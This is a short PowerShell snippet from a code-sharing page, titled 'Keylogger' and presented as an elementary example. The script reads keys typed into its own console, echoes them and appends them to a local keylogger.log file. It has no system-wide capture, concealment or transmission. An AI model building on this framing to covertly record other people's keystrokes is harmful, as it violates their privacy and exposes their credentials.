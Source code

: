 ```yaml
---
pid:            4707
poster:         greg zakharov
title:          Keylogger
date:           2013-12-17 10:22:43
format:         posh
parent:         0
parent:         0

---
```


# Keylogger

### [download](4707.ps1)

Example of elementary keylogger.

```posh
[String]$buff = ""

while($true) {
  [Console]::ReadKey("`r") | % {
    if ($_.Key -eq 'Enter') {break}
    if ([Char]::IsLetterOrDigit($_.KeyChar) -or [Char]::IsWhiteSpace($_.KeyChar) -or`
        [Char]::IsPunctuation($_.KeyChar) -or [Char]::IsSymbol($_.KeyChar)) {
      $buff += $_.KeyChar
      Write-Host $_.KeyChar -no
    }
  }
}
""

if (-not [String]::IsNullOrEmpty($buff)) {
  Out-File ($pwd.Path + '\keylogger.log') -in $buff -enc ASCII -app -for
}
```
